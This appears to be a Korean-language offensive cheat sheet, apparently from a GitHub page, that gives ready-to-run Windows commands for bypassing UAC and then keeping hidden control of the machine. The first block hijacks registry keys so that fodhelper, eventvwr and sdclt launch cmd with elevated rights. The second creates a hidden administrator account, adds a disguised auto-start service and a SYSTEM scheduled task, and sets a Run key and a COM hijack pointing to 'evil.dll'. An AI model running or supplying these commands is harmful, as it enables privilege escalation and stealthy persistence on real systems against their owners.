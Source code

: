 ### 🔒 UAC 우회와 Token 조작 결합

```cmd
:: 1. UAC 우회 후 Token 조작
:: fodhelper.exe UAC 우회
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /v DelegateExecute /t REG_SZ /d "" /f
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /d "C:\Windows\System32\cmd.exe" /f
fodhelper.exe

:: 2. eventvwr.exe UAC 우회
reg add "HKCU\Software\Classes\mscfile\shell\open\command" /d "C:\Windows\System32\cmd.exe" /f
eventvwr.exe

:: 3. 우회 후 즉시 Token 조작 도구 실행
:: 상승된 권한에서 JuicyPotato 등 실행

:: 4. 컴퓨터 관리 UAC 우회
reg add "HKCU\Software\Classes\Folder\shell\open\command" /d "C:\Windows\System32\cmd.exe" /f
reg add "HKCU\Software\Classes\Folder\shell\open\command" /v DelegateExecute /t REG_SZ /d "" /f
sdclt.exe /KickOffElev
```

### 🕒 지속성 및 은닉 기법

```cmd
:: 1. Token 조작 후 은닉된 계정 생성
net user hacker$ password123 /add /active:yes
net localgroup administrators hacker$ /add

:: 2. 서비스로 등록하여 지속성 확보
sc create TokenService binpath= "C:\Windows\Temp\tokentool.exe" start= auto
sc description TokenService "Windows Token Management Service"

:: 3. 스케줄된 작업으로 주기적 실행
schtasks /create /tn "TokenMaintenance" /tr "C:\Windows\Temp\tokentool.exe" /sc daily /st 03:00 /ru SYSTEM

:: 4. WMI 이벤트로 트리거 실행
:: 특정 이벤트 발생시 Token 조작 도구 실행

:: 5. DLL 하이재킹으로 지속 실행
:: 시스템 프로세스에 Token 조작 DLL 주입

:: 6. 레지스트리 Run 키에 숨김
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "WindowsTokenService" /d "C:\Windows\Temp\tokentool.exe -silent" /f

:: 7. COM 하이재킹으로 지속성
reg add "HKCU\SOFTWARE\Classes\CLSID\{GUID}\InprocServer32" /ve /d "C:\Windows\Temp\evil.dll" /f
```
